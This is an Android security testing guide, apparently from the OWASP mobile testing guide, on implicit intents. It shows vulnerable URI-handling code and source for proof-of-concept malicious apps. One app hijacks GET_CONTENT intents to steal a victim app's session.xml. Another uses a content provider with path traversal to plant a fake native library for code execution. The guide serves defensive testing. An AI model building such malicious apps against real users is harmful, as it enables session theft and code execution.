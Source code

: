 ```yaml
---
masvs_v1_id:
- MSTG-PLATFORM-2
masvs_v2_id:
- MASVS-CODE-4
platform: android
title: Testing Implicit Intents
---
```


## Overview

When testing for [implicit intents](#implicit-intents) you need to check if they are vulnerable to injection attacks or potentially leaking sensitive data.

## Static Analysis

Inspect the Android Manifest and look for any `<intent>` signatures defined inside [<queries> blocks](https://developer.android.com/guide/topics/manifest/queries-element "Android queries") (which specify the set of other apps an app intends to interact with), check if it contains any system actions (e.g. `android.intent.action.GET_CONTENT`, `android.intent.action.PICK`, `android.media.action.IMAGE_CAPTURE`, etc.) and browse the source code for their occurrence.

For example, the following `Intent` doesn't specify any concrete component, meaning that it's an implicit intent. It sets the action `android.intent.action.GET_CONTENT` to ask the user for input data and then the app starts the intent by `startActivityForResult` and specifying an image chooser.

```java
Intent intent = new Intent();
intent.setAction("android.intent.action.GET_CONTENT");
startActivityForResult(Intent.createChooser(intent, ""), REQUEST_IMAGE);
```

The app uses `startActivityForResult` instead of `startActivity`, indicating that it expects a result (in this case an image), so you should check how the return value of the intent is handled by looking for the `onActivityResult` callback. If the return value of the intent isn't properly validated, an attacker may be able to read arbitrary files or execute arbitrary code from the app's internal `/data/data/<appname>' storage. A full description of this type of attack can be found in the [following blog post](https://blog.oversecured.com/Interception-of-Android-implicit-intents " Current attacks on implicit intents").

### Case 1: Arbitrary File Read

In this example we're going to see how an attacker can read arbitrary files from within the app's internal storage `/data/data/<appname>` due to the improper validation of the return value of the intent.

The `performAction` method in the following example reads the implicit intents return value, which can be an attacker provided URI and hands it to `getFileItemFromUri`. This method copies the file to a temp folder, which is usual if this file is displayed internally. But if the app stores the URI provided file in an external temp directory e.g by calling `getExternalCacheDir` or `getExternalFilesDir` an attacker can read this file if he sets the permission `android.permission.READ_EXTERNAL_STORAGE`.

```java
private void performAction(Action action){
  ...
  Uri data = intent.getData();
  if (!(data == null || (fileItemFromUri = getFileItemFromUri(data)) == null)) {
      ...
  }
}

private FileItem getFileItemFromUri(Context, context, Uri uri){
  String fileName = UriExtensions.getFileName(uri, context);
  File file = new File(getExternalCacheDir(), "tmp");
  file.createNewFile();
  copy(context.openInputStream(uri), new FileOutputStream(file));
  ...
}
```

The following is the source of a malicious app that exploits the above vulnerable code.

AndroidManifest.xml

```xml
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
</application>
```

EvilContentActivity.java

```java
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("file:///data/data/<victim_app>/shared_preferences/session.xml")));
    finish();
  }
}
```

If the user selects the malicious app to handle the intent, the attacker can now steal the `session.xml` file from the app's internal storage. In the previous example, the victim must explicitly select the attacker's malicious app in a dialog. However, developers may choose to suppress this dialog and automatically determine a recipient for the intent. This would allow the attack to occur without any additional user interaction.

The following code sample implements this automatic selection of the recipient. By specifying a priority in the malicious app's intent filter, the attacker can influence the selection sequence.

```java
Intent intent = new Intent("android.intent.action.GET_CONTENT");
for(ResolveInfo info : getPackageManager().queryIntentActivities(intent, 0)) {
    intent.setClassName(info.activityInfo.packageName, info.activityInfo.name);
    startActivityForResult(intent);
    return;
}
```

### Case 2: Arbitrary Code Execution

An improperly handled return value of an implicit intent can lead to arbitrary code execution if the victim app allows `content://` and `file://` URLs.

An attacker can implement a [`ContentProvider`](https://developer.android.com/reference/android/content/ContentProvider "Android ContentProvider") that contains `public Cursor query(...)` to set an arbitrary file (in this case *lib.so*), and if the victim loads this file from the content provider by executing `copy` the attacker's `ParcelFileDescriptor openFile(...)` method will be executed and return a malicious *fakelib.so*.

AndroidManifest.xml

```xml
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
  <provider android:name=".EvilContentProvider" android:authorities="com.attacker.evil" android:enabled="true" android:exported="true"></provider>
</application>
```

EvilContentProvider.java

```java
public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
    MatrixCursor matrixCursor = new MatrixCursor(new String[]{"_display_name"});
    matrixCursor.addRow(new Object[]{"../lib-main/lib.so"});
    return matrixCursor;
}
public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
    return ParcelFileDescriptor.open(new File("/data/data/com.attacker/fakelib.so"), ParcelFileDescriptor.MODE_READ_ONLY);
}
```

EvilContentActivity.java

```java
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("content:///data/data/com.attacker/fakelib.so")));
    finish();
  }
}
```

## Dynamic Analysis

A convenient way to dynamically test for implicit intents, especially to identify potentially leaked sensitive data, is to use Frida or frida-trace and hook the `startActivityForResult` and `onActivityResult` methods and inspect the provided intents and the data they contain.
